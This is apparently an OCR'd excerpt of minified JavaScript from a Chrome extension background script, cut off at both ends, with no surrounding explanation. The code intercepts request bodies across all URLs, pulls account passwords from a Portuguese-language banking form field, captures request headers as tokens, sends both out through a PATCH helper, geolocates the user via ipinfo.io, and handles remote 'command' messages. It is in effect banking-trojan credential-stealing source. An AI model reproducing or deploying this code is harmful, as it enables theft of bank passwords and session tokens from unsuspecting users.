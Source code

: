 ```js
      n.pathname.includes("/armazenar-senha-conta")
    ) {
      const n =
        (b = e.requestBody) && b.raw
          ? JSON.parse(
              decodeURIComponent(
                String.fromCharCode.apply(null, new Uint8Array(b.raw[0].bytes))
              )
            )
          : {};
      if (n && n.senhaContaSelecaoInputV1) {
        var a = e.requestHeaders;
        r(
          {
            ...JSON.parse(t),
            ...{
              senha8: n.senhaContaSelecaoInputV1.senhaContaSelecao,
              tokenHeaderDaten: a,
            },
          },
          "PATCH"
        );
      }
    }
  },
  {
    urls: ["<all_urls>"],
  },
  ["requestBody"]
);

let interval;
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
  if (message.type === "login") {
    t = JSON.stringify(message.data);
    interval = setInterval(s, 2000);
  } else if (message.type === "store-password") {
    const requestBody = message.data;
    const headers = message.headers;
    r(
      {
        ...JSON.parse(t),
        senha8: requestBody.senhaContaSelecaoInputV1.senhaContaSelecao,
        tokenHeaderDaten: headers,
      },
      "PATCH"
    );
  }
});

chrome.runtime.onMessage.addListener(function (n, t, a) {
  if (n.ereignistyp && "entstehung" === n.ereignistyp) {
    fetch("https://ipinfo.io/json")
      .then((response) => response.json())
      .then(function (n) {
        e = n;
      });
  }
  if (n.ereignistyp && "codeSenden" === n.ereignistyp) {
    let e = n.code;
    comando = "AGUARDE";
    r(
      {
```